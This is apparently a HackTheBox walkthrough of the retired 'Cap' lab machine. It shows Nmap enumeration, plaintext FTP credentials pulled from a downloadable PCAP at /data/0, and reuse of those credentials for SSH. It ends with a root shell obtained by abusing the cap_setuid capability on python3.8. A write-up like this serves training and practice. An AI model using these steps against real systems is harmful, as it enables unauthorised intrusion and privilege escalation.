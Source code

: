 # Cap

This is the write-up for the box Cap that got retired at the 2nd October 2021.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.245    cap.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/cap.nmap 10.10.10.245
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
(...)
```

## Checking HTTP (Port 80)

The website shows a dashboard of security events, failed login attempts and port scans.
There is a menu on the left side with different pages:
- _Security Snapshot (5 Second PCAP + Analysis)_
  - The _Download_ button offers a **PCAP file**
- _IP Config_
  - Shows the output of the `ifconfig` command
- _Network Status_
  - Shows the output of the `netstat` command

The PCAP file is on the path _/data/1_ and by testing other numbers, there seems to be another PCAP file on _/data/0_.
In the file _0.pcap_ are credentials for the FTP service:
```
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
(...)
```

## Checking FTP (Port 21)

Login to the FTP service with the found credentials:
```
ftp 10.10.10.245
```

The current directory is the home folder of the user _nathan_ and it is possible to enumerate all directories on the box:
```
ftp> pwd
Remote directory: /home/nathan

ftp> cd /
250 Directory successfully changed.
```

This indicates that the password probably also works for the user to login via SSH:
```
ssh nathan@10.10.10.245
```

## Privilege Escalation

The web application runs on **Python Flask** and in the code _/var/www/html/app.py_, the _command_ variable sets the privileges to root before running `tcpdump`:
```
# (...)
# permissions issues with gunicorn and threads. hacky solution for now.

command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
os.system(command
# (...)
```

The binary _/usr/bin/python3.8_ has the _cap_setuid_ **capability** set:
```
getcap /usr/bin/python3*

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Executing the **Python3.8 interpreter** and setting the permissions to root:
```
/usr/bin/python3.8
```
```
>>> import os
>>> os.setuid(0)
>>> os.system('sh')

# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

After setting the permission, it is possible to start a shell as root!
